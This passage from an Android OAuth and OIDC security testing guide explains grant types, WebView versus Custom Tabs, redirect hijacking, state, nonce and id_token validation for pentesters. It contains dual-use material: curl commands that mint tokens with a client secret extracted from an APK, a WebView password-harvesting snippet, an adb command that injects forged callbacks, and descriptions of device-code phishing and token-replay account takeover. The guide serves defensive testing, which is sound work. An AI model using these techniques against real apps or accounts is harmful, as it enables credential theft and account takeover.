   to an OAuth server was done by wrapping the same behaviour in `grant_type=password`, because it was
   a one-line change and the redirect-based flow would have required rebuilding the entire login UX.
3. **First-party assumption.** "This is *our* app talking to *our* identity provider, so the app is
   trusted." This reasoning is superficially reasonable and completely wrong, because the attacker
   also gets to run "your" app — a repackaged, instrumented copy of it — and because it forecloses
   every future improvement.

**Why it is dead**, concretely:

| Consequence | Detail |
|---|---|
| The app sees the plaintext password | It can log it, cache it, sync it to analytics, or leak it in a crash report. All four happen in the wild. |
| Federation is impossible | The user cannot log in with a corporate IdP, a social provider, or a passkey — the app only knows how to post a password. |
| MFA is broken or bolted on | ROPC has no defined way to carry a second factor. Implementations invent `otp` parameters, and those inventions are where OTP flaws live (see [47-Authentication](../47-Authentication/README.md)). |
| No consent screen | The user never sees which scopes were granted. |
| Credential stuffing is easy | The token endpoint becomes a high-throughput, script-friendly password oracle. |
| Removed from OAuth 2.1 | And explicitly forbidden by RFC 8252 for native apps. |

> **🔍 Pentester's Note**
> When you find ROPC, do not stop at "deprecated grant type". Chain it:
> 1. Hook the login method with Frida and confirm the plaintext password is in the app's process
>    memory and in the HTTP body.
> 2. Grep logcat during login for the password. (`Log.d("Login", "u=" + u + " p=" + p)` in a debug
>    branch that was never removed is extraordinarily common.)
> 3. Check whether the token endpoint rate-limits. ROPC endpoints frequently do not, because the team
>    that hardened `/login` forgot `/token` existed.
> 4. Check whether MFA is enforced on this path. A very common finding is that MFA is enforced in the
>    web flow and silently skipped in the ROPC path, which is a complete MFA bypass.
> Item 4 alone frequently justifies a high severity.

| Property | Verdict for Android |
|---|---|
| **Mobile suitability** | ❌ **Dead. Its presence is a finding; its MFA bypass is often a high-severity one.** |

### 3.6 Grant type 5 — Client Credentials



This grant exists for machine-to-machine communication: a batch job talking to an API, one
microservice calling another. There is no resource owner, no browser, no redirect and no consent.

**It has no legitimate place in a mobile app**, for the reason established in section 1: it requires
a client secret, and a mobile app cannot hold one.

> **⚠️ Warning**
> Finding `grant_type=client_credentials` in an Android app is close to an automatic finding. It
> means a secret capable of minting tokens is sitting in the APK. Extract it, use it from `curl` on
> your laptop, and enumerate what it grants. The severity depends entirely on the scope attached to
> that client — sometimes it is a read-only analytics scope and the finding is medium; sometimes it is
> an admin scope and you have just taken over the tenant.
> ```bash
> # host — after extracting client_id and client_secret from the APK
> curl -s -X POST https://login.example.com/oauth2/token \
>   -d grant_type=client_credentials \
>   -d client_id=EXTRACTED_ID \
>   -d client_secret=EXTRACTED_SECRET \
>   -d scope=openid | jq .
> ```
> Decode the resulting token and look at its scopes and audience before you decide the severity. Do
> not use it against production data beyond what your rules of engagement permit.

| Property | Verdict for Android |
|---|---|
| **Mobile suitability** | ❌ **Never. Its presence proves a shipped secret.** |

### 3.7 Grant type 6 — Device Authorization Grant (RFC 8628)



The device grant solves a genuine problem: an Android TV remote makes typing a password miserable,
and a Wear OS watch has no browser worth the name. It moves the interactive part to a device that has
a keyboard.

**Its Android relevance** is Android TV, Android Automotive, and Wear OS. On a phone it is the wrong
answer, because the phone has a perfectly good browser.

**Its security properties** are subtle and worth understanding, because two attacks live here:

| Consideration | Why it matters |
|---|---|
| `user_code` entropy | Short, human-typed codes are guessable. RFC 8628 requires rate limiting and short expiry. A `user_code` of 6 base-10 digits with no rate limit is brute-forceable. |
| No binding between the polling device and the approving user | The device that polls is not proven to be the device the user is looking at. This enables the **device-code phishing** attack: an attacker starts a device flow, sends the victim the `user_code` in a convincing message ("enter this code to verify your account"), the victim approves it, and the attacker's poll returns a token for the victim's account. This is a real, actively exploited social-engineering technique against enterprise tenants. |
| `interval` and `slow_down` | Without server-side enforcement, a client can poll aggressively and mount a `device_code` guessing attack. |

> **🔍 Pentester's Note**
> On a TV or automotive engagement, test the device-code phishing path explicitly: start a flow with
> the app's `client_id` from `curl` on your laptop, take the `user_code`, approve it in a browser as
> a "victim" account, and confirm your laptop receives tokens. If the AS does not display a strong,
> unambiguous description of *what device* is being authorised, and does not require the approval to
> be co-located, write it up. Also check whether the `user_code` verification endpoint rate-limits
> wrong guesses.

| Property | Verdict for Android |
|---|---|
| **Mobile suitability** | ✅ On input-constrained Android (TV, Wear, Automotive). ❌ On phones and tablets. |

### 3.8 Grant type 7 — Refresh Token



The refresh token exists to let access tokens be short-lived without making the user log in every
fifteen minutes. It is presented only on the back channel, only to the AS, and never to a resource
server.

**Why it is the most valuable thing in the app's storage.** An access token expires in minutes. A
refresh token, in a typical consumer app, is valid for weeks or months and can mint an unlimited
number of access tokens. When you dump an app's SharedPreferences and find both, the refresh token is
the crown jewel. Chapter [46-Tokens](../46-Tokens/README.md) covers extraction and storage in full.

**Refresh token rotation** is the mitigation, and RFC 8252 / the OAuth Security BCP require it (or
sender-constraining) for public clients. Under rotation, every use of a refresh token issues a new
one and invalidates the old. The security value comes from what happens next:

> **🧠 Mental Model — reuse detection**
> Rotation on its own only limits the window. The real value is **reuse detection**. If refresh token
> `RT1` is used twice, exactly one of two things has happened: either the legitimate client used it
> and an attacker replayed it, or an attacker used it and the legitimate client then tried. The AS
> cannot tell which — and it does not need to. It knows a copy exists somewhere it should not, so the
> correct response is to revoke the **entire token family** and force re-authentication. This turns a
> silent, permanent compromise into a loud, self-limiting one.

Testing it is straightforward and should be in every OAuth test plan:

```bash
# host — capture RT1 from the device, then:
# 1. Use it once — should succeed and return RT2
curl -s -X POST https://login.example.com/oauth2/token \
  -d grant_type=refresh_token -d refresh_token="$RT1" -d client_id="$CID" | tee r1.json
# 2. Use RT1 AGAIN — must fail
curl -s -X POST https://login.example.com/oauth2/token \
  -d grant_type=refresh_token -d refresh_token="$RT1" -d client_id="$CID" | tee r2.json
# 3. Now use RT2 — if reuse detection works, this must ALSO fail, because the whole family
#    should have been revoked when RT1 was replayed.
curl -s -X POST https://login.example.com/oauth2/token \
  -d grant_type=refresh_token -d refresh_token="$(jq -r .refresh_token r1.json)" -d client_id="$CID"
```

Interpret the results with this table:

| Step 2 result | Step 3 result | Verdict |
|---|---|---|
| Success | — | ❌ No rotation. Stolen refresh token = permanent access. |
| Fail | Success | ⚠️ Rotation without reuse detection. Better, but a race lets an attacker keep the family alive. |
| Fail | Fail | ✅ Rotation with reuse detection. Correct. |

| Property | Verdict for Android |
|---|---|
| **Mobile suitability** | ✅ Necessary — but **must** use rotation with reuse detection, or be sender-constrained (DPoP / mTLS, see [46-Tokens](../46-Tokens/README.md)). |

### 3.9 Custom Tabs versus WebView

This is where a large share of real mobile OAuth findings come from, and it is worth being extremely
precise.

The authorisation request must be rendered in a user agent that the **client app cannot inspect or
control**. There are three options on Android and they are not equivalent.



> **⚠️ Warning — using a WebView for an OAuth flow is itself a finding**
> When the login page renders inside a `WebView` that the client app owns, the app can do all of the
> following with a handful of lines of code:
>
> ```java
> // The app that hosts the WebView can trivially harvest the credential
> webView.setWebViewClient(new WebViewClient() {
>     @Override public void onPageFinished(WebView v, String url) {
>         v.evaluateJavascript(
>             "(function(){return document.querySelector('input[type=password]').value;})()",
>             value -> Log.d("harvest", "password=" + value));   // and off it goes
>     }
> });
> ```
>
> It can also read every request body via `shouldInterceptRequest`, read the identity provider's
> session cookie via `CookieManager.getInstance().getCookie(idpUrl)`, and inject arbitrary JavaScript
> into the IdP's origin. The user, meanwhile, sees **no address bar**, so they cannot tell a real
> login page from a pixel-perfect fake — which also makes the pattern a training disaster: it teaches
> users that typing their IdP password into an app's own screen is normal.
>
> The finding is not "the app *did* steal the password". The finding is "**the architecture places
> the user's identity-provider credential inside the trust boundary of the client**, defeating the
> purpose of federated authentication and making credential theft undetectable." Write it that way.
> RFC 8252 §8.12 says embedded user agents must not be used for exactly these reasons.

**Why Custom Tabs are the right answer, mechanically.** A Custom Tab is not a view inside your app.
It is an activity in the **browser's** process, with the browser's UID, its own sandbox, and — this is
the important part — **the browser's cookie jar**. That gives three properties at once:

| Property | Consequence |
|---|---|
| Separate process and UID | The app cannot read the DOM, the cookies, or the typed password. The app sandbox ([21-App-Sandbox](../21-App-Sandbox/README.md)) enforces this, not politeness. |
| Shares the browser's cookie jar | Single sign-on works: if the user is already logged into the IdP in Chrome, the flow completes without re-authentication. A `WebView` has an isolated cookie store, so SSO breaks and users are trained to re-type passwords. |
| Shows the origin | The user can see `login.example.com` and the padlock. Phishing becomes detectable. |

The trade the product team is being asked to make is: give up full visual control of the login screen
in exchange for not being able to steal your users' passwords. Custom Tabs let them keep the toolbar
colour, add a custom close icon, and pre-warm the connection, which covers most of what they actually
wanted.

**A third option: `ACTION_VIEW` to the default browser.** Launching a plain `Intent(ACTION_VIEW, uri)`
sends the user to their full browser. This is secure but the user experience is poor — the user leaves
the app entirely, sees a browser task in the recents list, and comes back through a redirect. RFC 8252
permits it. Custom Tabs are strictly better UX with the same security.

**Detecting the WebView pattern.** Statically, look for a `WebView` whose loaded URL is the
authorisation endpoint:

```bash
# host — after `jadx -d out/ app.apk`
grep -rn "loadUrl" out/sources/ | grep -iE "authorize|oauth|/auth\?|connect/authorize"
grep -rn "shouldOverrideUrlLoading" out/sources/ | head -40
grep -rn "setJavaScriptEnabled(true)" out/sources/
```

Dynamically, the fastest confirmation is one Frida hook (full script in
[`scripts/detect-webview-oauth.js`](scripts/detect-webview-oauth.js)):

```javascript
// frida -U -f com.example.target -l detect-webview-oauth.js
Java.perform(function () {
  var WebView = Java.use("android.webkit.WebView");
  WebView.loadUrl.overload("java.lang.String").implementation = function (url) {
    if (/authorize|oauth|openid|\/auth\?/i.test(url)) {
      console.log("[!!] OAuth flow inside a WebView -> " + url);
    }
    return this.loadUrl(url);
  };
});
```

If that fires, you have your finding and your evidence in the same line of output.

### 3.10 Redirect URI handling on Android — the deep dive

The redirect is how the authorisation server's answer gets back into your app. Android offers three
mechanisms with three very different security levels.

#### 3.10.1 Custom URI schemes — and scheme hijacking

The app declares a scheme in its manifest:

```xml
<!-- AndroidManifest.xml — the common, insecure-by-default pattern -->
<activity android:name=".OAuthCallbackActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />
        <data android:scheme="exampleapp" android:host="oauth" />
    </intent-filter>
</activity>
```

The redirect URI is then `exampleapp://oauth/callback`.

> **⚠️ Warning — custom schemes are first-come-nobody-served**
> Android has **no registry, no ownership, and no verification** for custom URI schemes. Any APK on
> the device may declare `<data android:scheme="exampleapp"/>`. When a redirect to that scheme is
> resolved, `PackageManagerService` finds every matching activity. If there is more than one, the
> platform shows a disambiguation dialog — or, if the user previously tapped "Always" for the
> malicious app, silently routes to it. On some OEM builds and in some contexts the choice is even less
> visible. The legitimate app **cannot prevent this** and **cannot detect it**.

The attack, in full:



That `alt` block is the entire commercial value of PKCE and the reason
[section 7.5](#75-the-single-most-important-test-pkce-enforcement) exists.

**Mitigating custom-scheme risk within the custom-scheme model.** RFC 8252 §7.1 recommends that if
you must use a private-use URI scheme, it should be a **reverse-DNS name you control**, for example
`com.example.bank://oauth/callback` rather than `exampleapp://`. This does not make hijacking
impossible — nothing does — but it makes accidental collisions vanishingly unlikely and makes a
deliberate collision much more obviously malicious in a Play Store review. Note that the scheme must
be lowercase; `PackageManager` matching is case-sensitive in ways that bite people.

#### 3.10.2 App Links / verified HTTPS redirects — the secure option

Android App Links (API 23+) let an app claim `https://` URLs, but only after **proving** to the
platform that it controls the domain. The proof is a JSON file served over HTTPS from the domain:

```json
// https://login.example.com/.well-known/assetlinks.json
[{
  "relation": ["delegate_permission/common.handle_all_urls"],
  "target": {
    "namespace": "android_app",
    "package_name": "com.example.bank",
    "sha256_cert_fingerprints": [
      "14:6D:E9:83:C5:73:06:50:D8:EE:B9:95:2F:34:FC:64:16:A0:83:42:E6:1D:BE:A8:8A:04:96:B2:3F:CF:44:E5"
    ]
  }
}]
```

```xml
<!-- AndroidManifest.xml — the secure redirect -->
<activity android:name=".OAuthCallbackActivity" android:exported="true">
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />
        <data android:scheme="https"
              android:host="login.example.com"
              android:pathPrefix="/android/callback" />
    </intent-filter>
</activity>
```

The redirect URI becomes `https://login.example.com/android/callback`.

**Why this is genuinely different.** With `android:autoVerify="true"`, the platform's
`DomainVerificationService` fetches `assetlinks.json` at install time and compares the **signing
certificate SHA-256** of the installing APK against the fingerprints listed. A malicious app can
declare the same intent filter, but verification fails for it because its signing certificate is not
in the file it does not control. Unverified apps do not get to handle the link at all — from Android
12 (API 31) onward, an app that fails verification is simply not offered as a handler for that domain
by default, where earlier versions would still show a chooser.

| Property | Custom scheme | App Link (verified https) | Loopback |
|---|---|---|---|
| Ownership proven | ❌ No | ✅ Yes — cryptographically, via signing cert | ⚠️ Port ownership only |
| Another app can claim it | ✅ Trivially | ❌ Not without your signing key | ⚠️ Race for the port |
| Works if the app is not installed | ❌ Fails or opens a chooser | ✅ Falls back to the website | ❌ |
| User sees a chooser | Sometimes | No | No |
| Complexity for the developer | Low | Medium — needs domain control and CI wiring | Medium |
| **Verdict** | Acceptable **only** with enforced PKCE | ✅ **Preferred** | For desktop; rare on Android |

> **🔍 Pentester's Note**
> Verify the claim rather than believing the manifest. Two commands:
> ```bash
> # host — does the file actually exist and list this app's real signing cert?
> curl -s https://login.example.com/.well-known/assetlinks.json | jq .
> apksigner verify --print-certs app.apk | grep -i "SHA-256"
> ```
> ```bash
> # adb shell — what does the PLATFORM think? This is the authoritative answer.
> adb shell pm get-app-links com.example.bank
> adb shell dumpsys package domain-preferred-apps
> ```
> `pm get-app-links` prints each host with a state of `verified`, `legacy_failure`, `none`, or
> `approved`. A host in state `none` while the manifest says `autoVerify="true"` means verification
> **failed** — the developer thinks they have App Links and they do not, and the redirect is
> effectively an unverified https link that a chooser can steer elsewhere. That mismatch is a real
> finding and takes ten seconds to check.

#### 3.10.3 Loopback redirects

`http://127.0.0.1:<random_port>/callback`. The app opens a local HTTP listener on an ephemeral port,
and the browser redirects to it. RFC 8252 §7.3 blesses this and specifically requires the AS to
allow **any port** for loopback redirect URIs, because the port is picked at runtime.

On Android this is uncommon and mildly awkward — you need `INTERNET` (which everyone has) and a
listener, and other apps on the device can also bind ports and potentially race for one. It is the
standard pattern on desktop (this is how `gcloud auth login` works), and you will occasionally meet it
in Android apps ported from desktop codebases or in embedded/kiosk builds.

Two notes for testing: use `127.0.0.1` rather than `localhost` (RFC 8252 says so, because `localhost`
resolution can be redirected by a hosts file), and confirm the AS does not require an exact port
match, which would break the pattern.

### 3.11 The `state` parameter, and CSRF

> **📖 Definition — `state`**
> An opaque, unguessable value the client generates before sending the user to `/authorize`. The AS
> echoes it back unchanged in the redirect. The client compares the returned value against the one it
> stored, and aborts if they differ.

**What it defends against.** Without `state`, an attacker can complete an authorisation flow with
**their own** account, capture the resulting redirect (which contains a valid code for the attacker's
account), and then trick the victim's app into consuming it. The victim's app now holds tokens for
the *attacker's* account. That sounds harmless until you consider what people do next: the victim
uploads documents, links a payment card, or saves a password into what they believe is their own
account — and the attacker, who owns that account, reads all of it. This is **login CSRF**, and it is
a genuine, exploited class of bug.



**Requirements for a correct `state`:**

| Requirement | Rationale |
|---|---|
| Generated from a CSPRNG | Guessable state is no state |
| At least 128 bits of entropy | Rules out brute force |
| Bound to the specific request | Stored alongside the code_verifier, in a per-request record |
| **Compared, not merely present** | The bug is almost always here |
| Single use, cleared after comparison | Prevents replay |
| Not derived from user data | `state = base64(username)` is guessable and leaks the username |

> **🔍 Pentester's Note — the three-step `state` test**
> Presence is trivially visible. Enforcement is what you test.
> 1. **Omit it.** Deliver the callback with `state` removed entirely. If the app proceeds, it does not
>    validate.
> 2. **Change it.** Deliver the callback with `state=AAAA`. If the app proceeds, it does not compare.
> 3. **Replay it.** Deliver a previously used, correct `state` twice. If the app accepts the second,
>    it is not single-use.
> Each of these is one `adb shell am start` away:
> ```bash
> # adb shell — craft the callback yourself and hand it to the app
> am start -a android.intent.action.VIEW -d "exampleapp://oauth/callback?code=TESTCODE&state=AAAA"
> ```
> The app's reaction — does it call `/token`? does it show an error? — tells you everything, and you
> did not need to break TLS to find out.

**Note on PKCE and `state`.** PKCE incidentally provides some CSRF protection because the code cannot
be redeemed without the matching verifier, and an attacker's code will not match the victim app's
verifier. That is real, but it is not a reason to omit `state`: `state` also carries the client's
application context (which screen to return to, which deep link the user was chasing) and defends
scenarios PKCE does not. Send both. The OAuth Security BCP says so.

### 3.12 OpenID Connect (OIDC) — authentication done properly

OAuth 2.0 does not tell you who the user is. If you build a login system on raw OAuth, you end up
doing something like "call `/userinfo` with the access token and trust whatever comes back", and that
turns out to be exploitable in several ways.

> **📖 Definition — OpenID Connect**
> An identity layer on top of OAuth 2.0. It adds a new token type — the **ID token**, always a signed
> JWT — with a specified set of claims about the authentication event, plus a standard `/userinfo`
> endpoint, standard scopes (`openid`, `profile`, `email`, `address`, `phone`), and a discovery
> mechanism. The trigger is the `openid` scope: if `scope` contains `openid`, you are doing OIDC.

#### `id_token` versus `access_token` — the distinction that breaks systems

| | `id_token` | `access_token` |
|---|---|---|
| **Question it answers** | "Who authenticated, when, and how?" | "What is the bearer allowed to do?" |
| **Audience (`aud`)** | The **client** (your app's `client_id`) | The **resource server** |
| **Intended consumer** | The client that requested it | The API |
| **Format** | Always a signed JWT (OIDC mandates it) | Anything — opaque string or JWT |
| **Should be sent to an API?** | ❌ **No.** It is not a credential for a resource server. | ✅ Yes, as `Authorization: Bearer` |
| **Contains user claims** | Yes — `sub`, `name`, `email`, `nonce`, `auth_time`, `acr`, `amr` | Not necessarily |
| **Must be validated by** | The client, and by anything that consumes it | The resource server |

> **⚠️ Warning — the single most common OIDC vulnerability**
> The pattern is: the Android app performs "Sign in with Google", receives an `id_token`, and POSTs it
> to its own backend at `/api/v1/social-login`. The backend base64-decodes the JWT payload, reads
> `email`, and issues a session for that user.
>
> **It never verifies the signature. Or it verifies the signature but never checks `aud`.**
>
> If the signature is unverified, the attacker forges an `id_token` with any `email` they like and
> takes over any account, with no cryptography required — a text editor and `base64` are sufficient.
>
> If the signature is verified but `aud` is not checked, the attack is more elegant and just as fatal:
> the attacker registers their own trivial app with the same identity provider, gets the victim to sign
> into *that* app (a game, a wallpaper app, anything), receives a **genuinely Google-signed** `id_token`
> for the victim's identity, and replays it to the target's backend. The signature checks out
> perfectly. The only thing that would have caught it is `aud`, which names the client the token was
> minted for. This is the classic "Sign in with X" flaw and it has been found in a very large number of
> real applications.

**The complete `id_token` validation algorithm.** Every step is mandatory. OIDC Core §3.1.3.7 is the
normative source.



Two steps in that chart deserve extra attention because they are the ones that get skipped.

**Step A2 — never trust the token's own `alg`.** The token tells you which algorithm to use to verify
the token. That is circular, and it is the root of the algorithm-confusion attack family covered in
detail in [46-Tokens §3.6](../46-Tokens/README.md). Your validator must have its own allow-list, take
`alg` only as a hint, and reject anything outside the list — especially `none`.

**Final step — use `sub`, not `email`.** `sub` is the issuer's stable, unique identifier for the user
within that issuer. `email` is mutable, can be re-assigned by some providers, and may be unverified
(check `email_verified`). Account linking keyed on `email` is a real account-takeover vector: register
`victim@example.com` at a sloppy IdP that does not verify addresses, sign into the target with it, and
land in the victim's account.

#### `nonce`

> **📖 Definition — `nonce`**
> A client-generated random value sent in the `/authorize` request and echoed by the AS **inside the
> signed `id_token`**. The client compares the value in the token against the one it generated.

`state` and `nonce` are frequently confused. The distinction is clean:

| | `state` | `nonce` |
|---|---|---|
| Layer | OAuth 2.0 | OpenID Connect |
| Travels back in | The **redirect URI** (a query parameter) | The **`id_token` payload** (inside the signature) |
| Protects against | CSRF on the redirect | **ID token replay** — an `id_token` captured elsewhere cannot be injected into your flow |
| Integrity protected | No — an attacker rewriting the redirect can change it | **Yes** — changing it breaks the signature |
| Required | Always | Mandatory for implicit/hybrid OIDC; strongly recommended everywhere |

Because `nonce` sits inside the signature, it is the only mechanism that ties a specific `id_token` to
a specific authorisation request in a way an attacker cannot forge. Send it, and — the part that gets
skipped — **compare it on receipt**.

#### Scopes and over-scoping

Scopes are the "which parts of the car does the valet key open" mechanism. They are space-separated
strings in the `scope` parameter, and their meaning is entirely defined by the authorisation server,
apart from the OIDC-standard ones.

| Scope | Meaning |
|---|---|
| `openid` | Required to get an `id_token` at all — the switch that turns OAuth into OIDC |
| `profile` | `name`, `family_name`, `picture`, `locale`, `updated_at`, and friends |
